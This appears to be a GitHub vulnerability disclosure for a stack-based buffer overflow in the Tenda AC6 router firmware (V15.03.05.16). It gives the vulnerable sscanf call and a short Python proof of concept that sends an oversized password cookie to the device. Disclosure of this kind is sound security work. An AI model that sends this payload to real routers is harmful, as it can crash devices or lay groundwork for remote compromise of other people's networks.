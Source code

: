 # Tenda-Vul
Product:
Tenda AC6

Version:
V15.03.05.16
https://www.tenda.com.cn/material/show/102661
Problem Type:
Stack overflow
Description:
A vulnerability classified as critical has been found in Tenda AC6 15.03.05.16. Affected is the function R7WebsSecurityHandler of the file /goform/xxx. The manipulation of the argument password leads to stack-based buffer overflow. It is possible to launch the attack remotely. The exploit has been disclosed to the public and may be used. Other parameters might be affected as well.
Detial:
At the function of R7WebsSecurityHandler line 94：sscanf(v44, "%*[^=]=%[^;];*", v34).This function does not validate the user input.Copy user input directly into the stack.
POC:
import requests
URL = "http://192.168.2.3:80/goform/helloworld"
cookie = {"Cookie":"password="+"a"*0x400+".pngAAA"}
requests.get(url=URL, cookies=cookie)

![image](https://github.com/user-attachments/assets/c1a89751-2276-4f9b-be2a-1fba6a3be880)
